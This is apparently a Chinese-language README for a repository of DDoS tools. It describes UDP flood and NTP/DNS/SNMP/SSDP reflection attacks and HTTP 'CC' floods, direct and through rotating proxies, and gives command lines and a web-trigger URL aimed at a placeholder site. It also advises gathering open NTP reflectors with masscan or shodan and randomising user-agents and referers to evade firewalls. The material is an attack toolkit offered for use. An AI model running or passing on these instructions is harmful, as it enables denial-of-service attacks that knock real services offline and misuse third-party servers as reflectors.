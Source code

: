 # 常用dddos工具集合
## 目录
* [本工具攻击方法简介](#本工具攻击方法简介)
* [本工具使用方法](#使用方法)

## 本工具攻击方法简介

##### 网络层UDP攻击(目录：/udp/)：

>原理：发送海量数据包，顷刻占满目标系统的全部带宽，正常请求被堵在门外，拒绝服务的目的达成。
```
    1.UDP直接攻击（/udp/local/udpflood.php ）
        优点：操作简单，直接在本机上即可发动攻击
        缺点：由于本机发送大量UDP请求可能会被服务器商警告，或者在路由上被丢弃，且大型站点的机房都有防御，UDP直接攻击流量峰值无法突破大型站点的防御。正常应用情况下，UDP 包双向流量会基本相等，因此在消耗对方资源的时候也在消耗自己的资源。

    2.UDP反射型攻击（/udp/proxy/Saddam.py）
        优点：可以用较小的流量达到较大的攻击流量，且流量来自世界各地的真实服务器，难以被拦截。
        缺点：操作复杂，需收集大量IP，且需要机房允许发送伪造的数据包（大部分正规机房不允许发送伪造的UDP数据包）
```

##### 应用层CC攻击(目录：/cc/):

> 原理：对一些消耗资源较大的应用页面不断发起正常的请求，以达到消耗服务器端资源的目的。在Web应用中，查询数据库、读写硬盘文件等操作，相对都会消耗比较多的资源。

    1.CC直接攻击（/cc/local.py）
      优点：操作便捷，使用本机运行程序攻击
      缺点：单IP请求太频繁容易被目标站防火墙拦截禁封IP

    2.CC代理攻击（/cc/proxy-txt.py）
      优点：使用大量代理IP攻击，不易被拦截
      缺点：需要购买大量代理IP

## 使用方法
    如果要攻击的站点使用的是独立IP，可以直接输入IP地址
    如果要攻击的站点为某个网址，建议修改/etc/hosts，绑定要攻击域名与IP，减少DNS查询次数

##### 网络层UDP攻击(/udp/)

1. UDP直接攻击(/udp/local/)
```sh
    #php版本 > 5.4
    1.访问网址调用
      http://127.0.0.1/udpflood-web.php?pass=1f3870be274f6c49b3e31a0c6728957f&host=www.test.com&port=80&time=99999&packet=9999&bytes=999
    2.运行PHP文件调用
      php ./udpflood.php  host=www.test.com port=80 time=99999 packet=9999 bytes=999
```
2. UDP反射攻击(/udp/proxy/)
```sh
    #python版本2.7
    1.收集IP地址
      使用工具（如：masscan或者shodan）查找出大量开启NTP服务123端口的服务器IP，保存到ntp.txt文件
    2.填写参数运行python程序
      python Saddam.py www.test.com benchmark -n ntp.txt 
```
    > 此处以ntp攻击为例，其他反射攻击收集不同端口IP地址并修改 -n ntp.txt 即可
- -d dns反射攻击
- -s snmp反射攻击
- -p ssdp放射攻击

##### 应用层CC攻击(/cc/)
> python版本3.6
1. CC直接攻击(cc/local.py)
```sh
#get请求攻击 
  python3 local-post.py -v http://www.test.com/search.php?searchword=
#post请求攻击 
  python3 local-post.py -v http://www.test.com/search.php -p searchword
```

2. CC代理攻击(cc/proxy/)
```sh
#随机调用files/proxy.txt代理请求攻击 
  python3 proxy-txt.py -v http://www.test.com/search.php?keyword=
#使用luminati代理接口(修改proxyUser和proxyPass为自己的账户)
  python3 proxy-lum.py -v http://www.test.com/search.php?keyword=
#使用abuyun代理接口(修改proxyUser和proxyPass为自己的账户)
  python3 proxy-lum.py -v http://www.test.com/search.php?keyword=
```

###### 参数说明
- v 必选 待攻击网址或ip地址，例：-v www.test.com
- p 可选 post请求参数，例：-p searchword

###### files目录文件说明
- proxy.txt 随机代理，一行一个
- user-agents.txt 随机请求头，一行一个，防止目标站防火墙特征识别
- referers.txt 来路域名，一行一个
- keywords.txt 搜索关键词，一行一个
